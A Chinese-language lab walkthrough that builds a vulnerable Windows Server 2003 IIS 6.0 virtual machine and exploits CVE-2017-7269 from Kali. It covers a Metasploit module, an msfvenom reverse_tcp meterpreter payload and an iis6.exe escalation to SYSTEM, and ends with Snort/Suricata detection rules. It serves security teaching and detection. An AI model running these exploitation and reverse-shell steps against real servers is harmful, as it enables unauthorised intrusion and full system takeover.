










# 0x0 前言
### CVE-2017-7269 Description  
**Buffer overflow** in the ScStoragePathFromUrl function in the **WebDAV** service in **Internet Information Services (IIS) 6.0** in Microsoft Windows Server 2003 R2 allows remote attackers to execute arbitrary code via a long header beginning with "If: <http://" in a PROPFIND request, as exploited in the wild in July or August 2016.

* ()內為測試時使用之環境
* `斜體字`為指令

# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)

# 0x2 受攻擊機安裝
**版本：Windows Server 2003 R2 x32**  
此版本年代久遠，iso較不好取得，此篇使用的載點並非官方提供(官方提供的為vmc和vhd檔，經多次嘗試轉換成VMware的vmdk檔失敗)，載點：[部落格](http://litelinux0.blogspot.com/2019/01/everywindowsdownloadiso.html)中的[Windows Server 2003 r2 繁體中文版 32位元附序號](https://mega.nz/folder/DxoXhDiL#9m9l7y5txjq7VppnBQoayQ)  

#### 注意事項：  
在VWware新增VM後，掛載**兩個iso**進去(cd1、cd2)(新增一個CD/DVD)，並且**順序要與下圖相同**(new CD/DVD要放cd1，CD/DVD放cd2)  

	
接下來開機即可正常安裝，安裝完成後若跳出「安裝未完成，需要cd2」的視窗不用理會(如果以上步驟都沒做錯的話)

# 0x3 受攻擊機環境建置
1. 點選**開始** > **管理您的伺服器**  

 
2. 點選**新增或移除角色**  

 
3. 自訂設定  

 
4. 選取**IIS**，並**接連下一步**即可完成安裝  

5. 點選**系統管理工具**  

 
6. 選取**IIS**  

 
7. 開啟WebDAV  

 

# 0x4 攻擊機配置

## 腳本下載
1. metasploit腳本：https://github.com/dmchell/metasploit-framework/blob/master/modules/exploits/windows/iis/cve-2017-7269.rb
2. 提權工具iis6.exe：http://virgin-forest.top/images/CVE-2017-7269.rar

## 攻擊步驟
1. 將metasploit腳本放置於`/usr/share/metasploit-framework/modules/exploits/下或任意子目錄下`，建議路徑：`/usr/share/metasploit-framework/modules/exploits/windows/iis/cve_2017_7269.rb`

### msf1  
2. 開啟msfconsole，我們叫他**msf1**，輸入`search <metasploit腳本檔名>`  

3. `use <Module name>`  

4. `set RHOSTS <受攻擊機IP>`  

5. `exploit`，取得meterpreter  

6. `shell`，取得shell  

7. `whoami`，發現並非最高權限用戶，接著利用另一個漏洞取得SYSTEM權限  

 
### msf2
8. 開啟另一個msfconsole，我們叫他**msf2**，輸入`use exploit/multi/handler`  

9. `set payload windows/meterpreter/reverse_tcp`
10. `set LHOST <攻擊機IP>`  

11. `set LPORT <任意空閒的port>`  

12. `exploit`，此時**msf2**進入listen狀態  

 
### terminal 1
13.	另開一個**terminal**，輸入`msfvenom –p windows/meterpreter/reverse_tcp LHOST=<攻擊機IP> LPORT=<剛剛的port> -f exe –o payload.exe`，產生**payload.exe**於當前目錄  

 
### msf1
14.	回到**msf1**，在C槽下執行`md <filename>`創一個目錄以供放置腳本  

15.	`exit`，離開shell回到**meterpreter**  

16.	`lpwd`，確認攻擊機目前在meterpreter下的所在目錄，並**將payload.exe與iis6.exe皆放置於此目錄**  

17.	`upload <local filename> <remote path>`，將iis6.exe與payload.exe上傳至剛剛在受攻擊機創立的tmp目錄(**此處remote path的斜線需要2個**)  

18.	再次**取得shell**並切換至tmp目錄  

19.	`iis6.exe payload.exe`，使用iis6.exe提升執行權限至SYSTEM並執行payload.exe(此時其實已經可以使用iis6.exe <command>來執行任何指令，但為求方便我們還是希望取得一個有SYSTEM權限的shell)  
>第一次通常會失敗(會顯示retry很多次)，接著再執行一次即可，再不行就重開虛擬機  

  

### msf2
20.	此時會發現**msf2**會卡住沒有進入meterpreter，這時候回到**msf1**輸入`exit`(可能需要加上`Ctrl+C`)離開shell回到meterpreter，此時發現**msf2**已進入meterpreter  

21.	在**msf2**輸入`whoami`，可以看到我們已經取得SYSTEM權限  

# 0x5 Snort/Sericata Rule
1.	alert http $EXTERNAL_NET any -> $HTTP_SERVERS any (msg:”ET WEB_SERVER Microsoft IIS Remote Code Execution (CVE-2017-7269)“; flow:to_server,established; content:”If|3a 20 3c|”; http_header; pcre:”/^If\x3a\x20\x3c[^\r\n>]+?(?:[\x7f-\xff])/Hmi”; metadata: former_category WEB_SERVER;reference:url,github.com/edwardz246003/IIS_exploit/blob/master/exploit.py; classtype:attempted-user; sid:2024107; rev:2; metadata:affected_product Microsoft_IIS, attack_target Web_Server, deployment Datacenter, cve cve_2017_7269, signature_severity Major, created_at 2017_03_28, performance_impact Low, updated_at 2017_03_28;)
2.	alert http any any -> $HOME_NET any (msg:"[PT Open] MS IIS 6.0 BO RCE (CVE-2017-7269)"; flow: to_server, established; content: "PROPFIND"; http_method; content: "If: <"; http_header; nocase; pcre: "/^If: <[^\r\n>]+[\x7F-\xFF]/Hmi"; reference:url, www.helpnetsecurity.com/2017/03/30/cve-2017-7269/; reference: cve, 2017-7269; classtype:attempted-admin; sid: 10001195; rev: 1;)

# 0x6 Reference
* https://xz.aliyun.com/t/6485
* http://virgin-forest.top/2019/01/08/CVE-2017-7269/
